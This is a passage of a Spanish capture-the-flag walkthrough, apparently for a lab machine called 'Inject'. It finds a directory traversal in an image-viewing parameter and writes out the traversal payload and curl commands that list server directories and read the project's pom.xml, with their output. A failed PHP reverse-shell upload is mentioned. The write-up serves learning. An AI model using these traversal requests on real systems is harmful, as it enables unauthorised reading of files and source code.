 ```bash
Filtered Requests: 48251
Requests/sec.: 180.6954

```
La carpera **/upload** nos llama la atención, ingresamos a ella y podemos ver que nos dejan subir archivos
![Upload]({{ 'assets/img/commons/inject-writeup/up.png' | relative_url }}){: .center-image }
_Upload_

Si suvimos una reverse shell de PHP nos dice que solo adminte imagenes, subimos una imagen random y meremos resultados.
![Imagen]({{ 'assets/img/commons/inject-writeup/up1.png' | relative_url }}){: .center-image }
_Imagen_

entramos a ver la imagen y .....mmmm  **img?=** eso huele a **Directory Transversal**.Podemos probar ver el **/etc/passwd** ingresamos la cadena 

![Searchsploit]({{ 'assets/img/commons/inject-writeup/dt.png' | relative_url }}){: .center-image }
_Directory Transversal_
```
../../../../../../../../../../../../../../../../etc/passwd
```
Pero no vemos nada, podemos probar con burp o curl, interceptamos la petición y la mandamos al repeater.
![Burpsuite]({{ 'assets/img/commons/inject-writeup/burp.png' | relative_url }}){: .center-image }
_Burpsuite_
Analizando mas a fondo la web  podemos intentar listar la carppeta donde se guardan las paginas web **/var/www/**
```bash
❯ curl 'http://10.129.178.241:8080/show_image?img=.././../../../../../././../../../../../var/www/'
html
WebApp
```
la careta **WebApp** nos llama la atención podemos listar su contenido
```bash
❯ curl 'http://10.129.178.241:8080/show_image?img=.././../../../../../././../../../../../var/www/WebApp'
.classpath
.DS_Store
.idea
.project
.settings
HELP.md
mvnw
mvnw.cmd
pom.xml
src
target
```
Un archivo .xml, lo leemos.
```
❯ curl 'http://10.129.178.241:8080/show_image?img=.././../../../../../././../../../../../var/www/WebApp/pom.xml'
<?xml version="1.0" encoding="UTF-8"?>
<project xmlns="http://maven.apache.org/POM/4.0.0" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
	xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 https://maven.apache.org/xsd/maven-4.0.0.xsd">
	<modelVersion>4.0.0</modelVersion>
	<parent>
		<groupId>org.springframework.boot</groupId>
		<artifactId>spring-boot-starter-parent</artifactId>
		<version>2.6.5</version>
```
